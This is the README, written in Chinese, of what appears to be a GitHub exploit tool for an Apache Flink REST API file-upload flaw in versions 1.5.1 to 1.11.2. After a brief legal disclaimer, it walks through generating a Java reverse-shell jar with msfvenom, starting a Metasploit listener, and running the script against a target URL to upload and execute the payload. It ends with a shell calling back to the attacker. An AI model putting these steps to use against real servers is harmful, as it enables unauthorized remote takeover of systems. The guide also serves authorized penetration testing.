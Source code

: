 # Apache-flink-fileupload-getshell
Apache-Flink


# 免责声明
使用本程序请自觉遵守当地法律法规，出现一切后果均与作者无关。

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!

严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

由于用户滥用造成的一切后果与作者无关。

切勿用于非法用途，非法使用造成的一切后果由自己承担，与作者无关。

### 背景介绍
```
Apache Flink是一个面向数据流处理和批量数据处理的可分布式的开源计算框架。它可以用来做批处理，即处理静态的数据集、历史的数据集；也可以用来做流处理，即实时地处理一些实时数据流，实时地产生数据的结果；也可以用来做一些基于事件的应用；该漏洞允许攻击者利用REST API，并通过精心构造的HTTP Header，实现远程文件写入。

影响版本：Apache Flink: 1.5.1 —— 1.11.2
```


### 食用方法

首先需要使用msf生成一个jar包的攻击载荷
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.99.5 lport=4444 -f jar > exp.jar
```

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/24e8e86b-571b-4670-bae1-83eb89b204e5)


将攻击载荷`exp.jar`放入到python脚本的同级目录下

注：在脚本中攻击载荷的名字写死了为`exp.jar`，使用者若想更换可以修改源码进行更换

攻击载荷生成完成后，在msf上建立监听接受反弹的shell

```
use exploit/multi/handler

set payload java/shell/reverse_tcp

set LHOST 0.0.0.0

set LPORT 4444

exploit
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/63d6b1f9-45ba-4a3b-91ee-d3319c0e361a)


随后执行python脚本
```
 python .\apache_flink文件上传getshell.py -u http://192.168.99.7:8081
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/a1d2474c-78e7-4554-ab65-f9b9f1fa7b6e)


脚本会返回apache-flink的版本信息，若存在漏洞则会上传`exp.jar`包，成功上传后会返回jar包落地的文件名，并且会执行该jar包

执行完攻击载荷就可以在msf上看是否反弹了shell回来

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/8c367411-c3ce-4043-be51-fcf55629b5f8)

成功反弹shell，并且可以成功执行命令
